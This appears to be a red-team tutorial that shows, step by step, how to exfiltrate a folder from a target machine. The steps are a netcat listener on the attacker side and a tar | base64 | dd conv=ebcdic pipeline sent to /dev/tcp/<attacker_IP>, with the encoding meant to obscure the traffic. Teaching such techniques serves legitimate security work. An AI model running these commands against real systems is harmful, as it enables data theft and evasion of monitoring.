



Exfiltration over TCP Socket with EBCDIC and Base64
In this example, on our target
machine, we will simultaneously “tar” (archive) the data, encode it with
Base64 and
EBCDIC (Extended Binary Coded Decimal Interchange Code) encodings
and ship the archive to our attacker system over a TCP socket in order to better obfuscate our
traffic.
1. On our attacker system, we first configure our netcat listener on port TCP/80 to receive
incoming data while redirecting the output to a “datafolder.tmp” file:
attacker@kali:/# mkdir extraction
attacker@kali:/# nc -nlvp 80 > datafolder.tmp
2. On our target system, we tar the datafolder to standard output (stdout) (-),
encode with both BASE64 and EBCDIC, and redirect the data over a local
TCP socket to our attacker machine. In the below example, “datafolder” is the folder containing the data:
target@debian:/$ mkdir /tmp/datafolder
target@debian:/$ echo provatesto > prova.txt
target@debian:/$
target@debian:/$ tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker_IP>/80
3. On our attacker
machine, we decode the received datafolder.tmp file from EBCDIC back to ASCII, decode the BASE64 and redirect the
output to a datafolder.tar file:
attacker@kali:/# dd conv=ascii if=datafolder.tmp |base64 -d > datafolder.tar
4. Extract our tar
archive:
attacker@kali:/# tar xf datafolder.tar
attacker@kali:/# ls
attacker@kali:/# cd datafolder
attacker@kali:/# ls
